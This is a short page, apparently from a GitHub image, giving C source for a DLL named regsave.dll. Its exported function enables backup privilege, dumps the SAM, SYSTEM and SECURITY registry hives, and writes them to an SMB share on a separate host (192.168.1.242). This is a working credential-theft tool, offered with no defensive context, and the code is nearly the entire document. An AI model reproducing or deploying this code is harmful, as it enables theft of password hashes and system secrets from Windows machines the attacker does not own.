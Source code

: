 **Create a DLL regsave.dll from source regsave.c**

```c
#include <windows.h>

void CALLBACK RegSave(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow);

void CALLBACK RegSave(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
   // set your export paths here
   LPCWSTR wsSam = L"\\\\192.168.1.242\\upload\\sam";
   LPCWSTR wsSystem = L"\\\\192.168.1.242\\upload\\system";
   LPCWSTR wsSecurity = L"\\\\192.168.1.242\\upload\\security";
   HANDLE hToken;
   TOKEN_PRIVILEGES tp;
   LUID luid;
   HKEY hKey;

   if(OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
   {
      if(LookupPrivilegeValue(NULL, SE_BACKUP_NAME, &luid))
      {
         tp.PrivilegeCount = 1;
         tp.Privileges[0].Luid = luid;
         tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
         if(AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES) NULL, (PDWORD) NULL))
         {
            if(RegCreateKeyExA(HKEY_LOCAL_MACHINE, "SAM", 0, NULL, REG_OPTION_BACKUP_RESTORE, KEY_ALL_ACCESS, NULL, &hKey, NULL) == ERROR_SUCCESS)
            {
               RegSaveKeyW(hKey, wsSam, NULL);
               RegCloseKey(hKey);
            }
            if(RegCreateKeyExA(HKEY_LOCAL_MACHINE, "SYSTEM", 0, NULL, REG_OPTION_BACKUP_RESTORE, KEY_ALL_ACCESS, NULL, &hKey, NULL) == ERROR_SUCCESS)
            {
               RegSaveKeyW(hKey, wsSystem, NULL);
               RegCloseKey(hKey);
            }
            if(RegCreateKeyExA(HKEY_LOCAL_MACHINE, "SECURITY", 0, NULL, REG_OPTION_BACKUP_RESTORE, KEY_ALL_ACCESS, NULL, &hKey, NULL) == ERROR_SUCCESS)
            {
               RegSaveKeyW(hKey, wsSecurity, NULL);
               RegCloseKey(hKey);
            }
         }
      }
   }
}
```
